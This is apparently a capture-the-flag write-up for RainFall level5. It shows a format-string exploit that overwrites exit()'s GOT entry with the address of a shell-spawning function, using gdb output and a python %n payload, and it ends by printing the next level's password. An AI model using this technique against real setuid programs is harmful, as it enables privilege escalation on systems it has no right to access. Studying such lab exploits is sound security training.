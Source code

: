 <p align="justify">

level5 protections:
```Shell
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

level5 rights:
```Shell
level5@RainFall:~$ ls -la level5 
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```

This binary has the same behaviour as the other one.
Decompiling with Ghidra on https://dogbolt.org/ shows the main difference with the previous executable: there is an uncalled function `o()` that opens a shell. The `n()` function also calls `printf()` and `exit()`.
Once again, we can exploit `printf()` the way we did before; however, we need to find access to the `o()` function.

The goal is to redirect the flow of execution towards `o()` perhaps by replacing the call to `exit()` by a call to `o()`.
First, let's find the address where the address of `exit()` is stored. This required learning about [GOT](https://ctf101.org/binary-exploitation/what-is-the-got/)(Global Offset Table).
Let's disassemble `n()`:
```Shell
(gdb) disas n
Dump of assembler code for function n:
[...]
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```
This is not `exit()` address, but a call to a function that fetches `exit()`. So let's disassemble it as well:
```Shell
(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

We can see that the first step consists in jumping to an address. If we investigate this address with the `x` option in GDB, here is what we get:
```Shell
(gdb) x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
```
Therefore the jump was indeed done to the address of `exit()`, which converted to Little Endian is: `\x38\x98\x04\x08`. This will be the first part of our payload, as it will sit at the start of our buffer.


Now let's get the address of `o()`. The x option in gdb allow us to view the memory content at a specified address or a variable name:
```Shell
(gdb) x o
0x80484a4 <o>:  0x83e58955
```
This is the address of `o()` in decimal: 134513824. Why decimal? Because just like the previous exploit, we will use `%d` to rewrite a value with `%n`. So what we want is this: the address of `exit()` must be overwritten by the address of `o()`, so we'll pass it as decimal to be able to use `%n`. 

Finally, in order to give the right argument from the stack to `%n`, let's find our buffer's index:
```Shell
level5@RainFall:~$ ./level5 
AAAA %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141
```
Now we know it starts at the 4th index.

Our payload will be:
```Shell
python -c 'print("\x38\x98\x04\x08" + "%134513824d%4$n")' > /tmp/payload5
```

And the result is:
```Shell
level5@RainFall:~$ cat /tmp/payload5 - | ./level5
[...]
512
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

</p>